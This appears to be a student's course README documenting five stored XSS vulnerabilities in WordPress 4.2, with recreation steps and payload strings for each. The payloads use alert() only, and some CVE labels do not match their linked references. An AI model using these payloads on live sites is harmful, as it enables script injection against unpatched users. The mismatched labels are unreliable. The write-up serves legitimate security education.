




# Cybersecurity-Week-7-and-8
# Project 7 - WordPress Pentesting

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2015-5714: Authenticated Shortcode Tags Cross-Site Scripting
  - [x] Summary: 
    Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a >
    ```
    3. Navigate to the post and click go to the hyperlink
  - [x] Affected source code: 
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    - [Link 2](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-5714)
### 2. CVE 2015-5714: Authenticated Stored Cross-Site Scripting
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
    ```
    3. Navigate to the post and click go to the hyperlink
  - [x] Affected source code: 
    - [Link 1](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
### 3. CVE 2017-9061: Authenticated Stored Cross-Site Scripting via Image Filename
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [x] GIF Walkthrough:
    
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    filename.png
    ```
    3. Navigate to the post and before loading the page, the code will be executed.
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168)
### 4. CVE 2017-6817: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    In WordPress before 4.7.3 (wp-includes/embed.php), there is Authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
    ```
    3. Navigate to the post the code will be executed when the page loads.
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    - [Link 2](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2017-6817)
### 5. CVE 2015-3440: Unauthenticated Stored Cross-Site Scripting
  - [x] Summary:
    Cross-site scripting (XSS) vulnerability in wp-includes/wp-db.php in WordPress before 4.2.1 allows remote attackers to inject arbitrary web script or HTML via a long comment that is improperly stored because of limitations on the MySQL TEXT data type.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
    
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Logout and type this code in the comment
    ```html
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA....[64 kb]...AAAAA'></a>
    ```
    3. It would execute the code.
  - [x] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

WPDistillery was showing `Not Found` page, so had to modify the `Permalink` settings in WordPress to load the pages and posts.

## License

    Copyright [2020] [Krushang Shah]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
